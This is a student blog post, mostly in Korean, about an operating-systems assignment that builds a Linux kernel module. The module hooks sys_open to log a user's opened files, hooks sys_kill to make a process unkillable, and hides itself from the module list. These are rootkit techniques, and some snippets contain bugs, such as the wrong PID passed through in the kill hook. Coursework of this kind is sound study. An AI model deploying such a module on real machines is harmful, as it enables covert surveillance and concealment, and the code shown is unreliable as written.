 ```yaml
---
layout: post
title: "운영체제 - LKM"
tags: [OS, 공부, 한동대]
comments: true
---
```


> Linux Kernel Module  

### 운영체제 System Programming  
2019-1 학기 가장 힘들었던 수업은 단연컨대 운영체제였다. 단순히 용어가 어렵고 개념이 너무 깊어서 뿐만 아니라 네 번에 걸친 system programming 과제가 잠을 못 자게 했다. 그래도 버티고 버텨낸 끝에 학기를 돌아보니 커널 레벨에서 코딩도 해보고, 생전 처음 들어본 데드락도 잡아보고, 소켓 프로그래밍도 해보는 진귀한 경험이었다. 앞으로 네 번의 포스팅에서 그것들을 다시 복습하며 정리하려 한다. (이미 기억이 많이 휘발돼서 상세하게 설명하지 못할 수도 있지만..) 운영체제 관련 포스팅은 대부분 영어로 작성하는 것이 편할 듯 하다. 용어가 한국어로는 너무 어색하고 학기 중에 리포트도 영어로 써서 설명이 익숙하기 때문이다.

첫번째 주제는 Linux Kernel Module 이다.  

### What is LKM?  
Linux Kernel Modules are pieces of code, or suit of functions that can be loaded and unloaded into the kernel upon demand. The point which distinguish LKM from normal program such as written with C language is that it can be loaded to kernel space in runtime.  

### Requirements  
* Log the names of files that a user has accessed  
* Prevent a kill to a specified process  
* Hide the dogdoor module from the module list  

### 1. tracking user-accessed files  
when user open certain file, original sys open function is called. By modifying it, (actually creating my sys open function and change the system vector) tracking user-accessed files are able.  
~~~c
asmlinkage int (*orig_sys_open)(const char __user * filename, int flags, umode_t mode) ; 

asmlinkage int openhook_sys_open(const char __user * filename, int flags, umode_t mode)
{
	char fname[256] ;

	copy_from_user(fname, filename, 256) ;
	// get user uid 
	unsigned int  uid = get_current_user() -> uid.val;
	int i = 0;
	if (uid == userid) {
		// track up to ten files
		if (fcnt >= 10) {
			for(i = 0; i < 10; i++) strcpy(fnames[i], fnames[i+1]);
			--fcnt;
		}
		strcpy(fnames[fcnt], fname);
		++fcnt;	
	}
	
	return orig_sys_open(filename, flags, mode) ;
}
~~~
~~~c
sctable[__NR_open] = openhook_sys_open ;
~~~  

### 2. immortal process  
To prevent kill() system call, system vector must be changed. Thus, sys kill should be hijacked.  

~~~c
asmlinkage long (*orig_sys_kill)(pid_t pid, int sig) ;  

asmlinkage long openhook_sys_kill(pid_t pid, int sig)  
{  
	if (in_pid == pid) return -1 ;  
	return orig_sys_kill(in_pid, sig) ;  
}  
~~~
~~~c
orig_sys_kill = sctable[__NR_kill] ;  
~~~
By changing the system vector, intended system call replaces the original one. As the code above explains, new sys kill function is quite simple. It checks the matching pid of process and just stops the system call. If not, call the original sys kill function so that the process can be propely terminated.

### 3. invisible module  
The type of THIS_MODULE->list is ‘struct list_head’. THIS_MODULE->list is doubly circular linked list.
From the hint that it’s doubly linked list, module can be hidden by two ways  

1. using list_del() and list_add() functions which is included in linux/list.h header file.  
~~~c
static void hide(void) {
	prev = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);
}
~~~
~~~c
static void show(void) {
	list_add(&THIS_MODULE->list, prev);
}
~~~  

2. adjusting the links : pre, next, and THIS_MODULE->list.  
~~~c
if (is_hide) {
	(&THIS_MODULE->list)->prev->next = &THIS_MODULE->list;
	(&THIS_MODULE->list)->next->prev = &THIS_MODULE->list;
}
else {
	(&THIS_MODULE->list)->prev->next = (&THIS_MODULE->list)->next;
	(&THIS_MODULE->list)->next->prev = (&THIS_MODULE->list)->prev;
}
~~~

### 4. demo video  
[LKM demo](https://www.youtube.com/watch?v=L4Jp-GhrlT4)


